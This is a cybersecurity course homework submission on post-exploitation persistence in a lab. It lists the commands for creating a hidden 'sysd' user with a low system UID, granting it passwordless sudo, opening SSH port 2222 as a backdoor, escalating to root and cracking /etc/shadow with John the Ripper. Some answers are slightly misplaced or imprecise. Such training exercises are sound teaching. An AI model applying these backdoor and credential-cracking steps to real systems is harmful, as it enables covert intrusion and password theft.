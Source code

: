 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser sysd

2. Give your secret user a password: 
    - sudo passwd sysd

3. Give your secret user a system UID < 1000:
    - sudo usermod -u 400 sysd

4. Give your secret user the same GID:
   - sudo groupmod -g 400 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo

6. Test that `sudo` access works without your password:

    ```bash
    sysd ALL=(ALL:ALL) NOPASSWD:ALL
    ```

**Step 2: Smooth Sailing**
sudo nano etc/ssh/sshd_config 
    

1. Edit the `sshd_config` file:

    ```#SSH access via port 2222
    port 22
    port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su 
    - john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

